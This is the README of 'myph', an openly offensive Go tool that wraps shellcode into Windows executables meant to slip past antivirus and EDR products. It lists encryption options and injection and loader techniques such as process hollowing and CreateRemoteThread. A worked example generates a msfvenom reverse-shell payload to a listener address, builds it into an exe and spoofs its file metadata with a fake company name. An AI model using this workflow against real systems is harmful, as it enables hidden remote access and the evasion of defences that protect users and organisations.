 # myph

AV/EDR bypass payload creation tool

## Disclaimer

The access to and the use of the information on this repository is free of charge,
but implies the tacit acceptance by the user of the following conditions, without prejudice to the applicable legal provisions.
The user acknowledges that this repository is intended for informational purposes only and therefore serves only
for general information and testing. The tool and this repository are carefully compiled on the basis of good sources and references.

However, the developers cannot be held liable for for any damage, direct or indirect, of whatever nature as a result of
or related to the access to or use of the software.

## How to use the software ?

> Please note this project is under development & subject to changes.
> Breaking changes can be introduced from release to release.

### Compiling or Installing the project

You can easily compile like so:
```bash
# if you have make installed
make  # you can also use `make help` to check recipes

# if you don't
go build -o myph .
```

> You can also grab the latest release from [here](https://github.com/CMEPW/myph/releases/)

Finally, you can install from the [golang package repository](https://pkg.go.dev/github.com/CMEPW/myph) like so:
```bash
# /!\ lowercase is important /!\
go install github.com/cmepw/myph@latest
```

### Usage

```
              ...                                        -==[ M Y P H ]==-
             ;::::;
           ;::::; :;                                    In loving memory of
         ;:::::'   :;                               Wassyl Iaroslavovytch Slipak
        ;:::::;     ;.
       ,:::::'       ;           OOO                       (1974 - 2016)
       ::::::;       ;          OOOOO
       ;:::::;       ;         OOOOOOOO
      ,;::::::;     ;'         / OOOOOOO
    ;::::::::: . ,,,;.        /  / DOOOOOO
  .';:::::::::::::::::;,     /  /     DOOOO
 ,::::::;::::::;;;;::::;,   /  /        DOOO        AV / EDR evasion framework
; :::::: '::::::;;;::::: ,#/  /          DOOO           to pop shells and
: ::::::: ;::::::;;::: ;::#  /            DOOO        make the blue team cry
:: ::::::: ;:::::::: ;::::# /              DOO
 : ::::::: ;:::::: ;::::::#/               DOO
 ::: ::::::: ;; ;:::::::::##                OO       written with <3 by djnn
 :::: ::::::: ;::::::::;:::#                OO                ------
 ::::: ::::::::::::;' :;::#                O             https://djnn.sh
   ::::: ::::::::;  /  /  :#
   :::::: :::::;   /  /    #

Usage:
  myph [flags]
  myph [command]

Available Commands:
  completion  Generate the autocompletion script for the specified shell
  help        Help about any command
  spoof       spoof PE metadata using versioninfo

Flags:
  -d, --debug                builds binary with debug symbols
  -e, --encryption encKind   encryption method. (allowed: AES, chacha20, XOR, blowfish) (default AES)
  -h, --help                 help for myph
  -k, --key string           encryption key, auto-generated if empty. (if used by --encryption)
  -f, --out string           output name (default "payload.exe")
  -p, --process string       target process to inject shellcode to (default "cmd.exe")
  -s, --shellcode string     shellcode path (default "msf.raw")
      --sleep-time uint      sleep time in seconds before executing loader (default: 0)
  -t, --technique string     shellcode-loading technique (allowed: CRT, CRTx, CreateFiber, ProcessHollowing, CreateThread, Syscall, Etwp) (default "CRT")
  -v, --version              version for myph

Use "myph [command] --help" for more information about a command.
```

#### Loader Methods

This tool supports few methods for now, but aims to add more as time goes on:
- Syscall
- CreateFiber
- CreateThread
- Process hollowing
- CreateRemoteThread
- EtwpCreateEtwThread
- CreateRemoteThreadEx

If you don't know what that is about, go check out [this repository](https://github.com/CMEPW/BypassAV) :)~


#### Example run

Generate a payload like so:

```bash
# generate your payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.2.2 LPORT=1234 -f raw -o msf.raw

# run myph (--shellcode is not mandatory here because we use the default value)
./myph --shellcode msf.raw --out something.exe

# you should find your payload here
file ./something.exe

# add some program metada
./myph spoof --pe something.exe --file .github/test-data/example.json
```

#### Using docker

```bash
# using makefile
make docker

# going through dockerfile directly
docker build . -t myph:latest
```

#### Editing file properties

A subcommand is available to edit a PE file's properties & change its icon or file version (for instance).
For more information on CLI usage, you can run:
```bash
# will give you a little help display
./myph spoof --help

# will edit demo.exe with the data specified in example.json
./myph spoof --pe demo.exe --file example.json
```

It expects a JSON file, containing the metadata you want to set. You can find an example in `.github/test-data` directory.

Information on resource types and language IDs can be found [here](https://learn.microsoft.com/en-us/windows/win32/menurc/resource-types) and [here](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-lcid/70feba9f-294e-491e-b6eb-56532684c37f).

You can set data depending on the language.
BMP, ICO, and PNG files are supported, and you can a wide array of information:

```json
{
  "RT_VERSION": {
    "#1": {
      "0000": {
        "fixed": {
          "file_version": "1.2",
          "product_version": "1.2.3",
          "flags": "Debug,Patched",
          "timestamp": "2020-12-18T23:00:00+01:00"
        },
        "info": {
          "0409": {
            "Comments": "that should do it",
            "CompanyName": "Smersh",
            "FileDescription": "smrsh 4 evr",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          },
          "040C": {
            "Comments": "ca devrait le faire",
            "CompanyName": "Smersh",
            "FileDescription": "smrh pr tjrs",
            "FileVersion": "1.2",
            "InternalName": "",
            "LegalCopyright": "GNU GPL v3",
            "LegalTrademarks": "",
            "OriginalFilename": "myph.exe",
            "PrivateBuild": "",
            "ProductName": "myph ldr",
            "ProductVersion": "1.2 release",
            "SpecialBuild": ""
          }
        }
      }
    }
  }
}
```

### Contributing

Contributions are welcome, but please try to keep PRs short and issues descriptive. :)~

A guide on how to use the tool is in the works, please let us know if you're interested in helping out.
